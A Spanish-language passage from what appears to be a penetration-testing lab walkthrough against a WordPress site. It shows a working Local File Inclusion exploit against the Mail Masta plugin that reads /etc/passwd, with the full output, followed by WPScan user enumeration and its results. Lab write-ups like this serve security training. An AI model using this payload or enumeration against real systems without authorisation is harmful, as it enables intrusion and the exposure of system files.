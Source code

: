 - La versión del núcleo de WordPress es la última (6.0 en el momento de escribir esto)
- El tema en uso es `cbusiness-investment`
- El plugin `b2i-investor-tools` está instalado
- El plugin `mail-masta` está instalado

El plugin `Mail Masta` es un plugin más antiguo con varias vulnerabilidades conocidas. Podemos usar [este](https://www.exploit-db.com/exploits/50226) exploit para leer archivos en el sistema de archivos subyacente aprovechando una vulnerabilidad de Local File Inclusion (LFI).



```r
curl http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Podemos agregar otro hallazgo a nuestra lista: `Local File Inclusion (LFI)`. A continuación, intentemos enumerar los usuarios de WordPress usando `WPScan`.



```r
wpscan -e u -t 500 --url http://ir.inlanefreight.local

<SNIP>

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:02 <===================================> (10 / 10) 100.00% Time: 00:00:02

[i] User(s) Identified:

[+] ilfreightwp
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://ir.inlanefreight.local/wp-json/wp/v2/users/?per_page=100&page=1
 |  Rss Generator (

Aggressive Detection)
 |  Author Sitemap (Aggressive Detection)
 |   - http://ir.inlanefreight.local/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```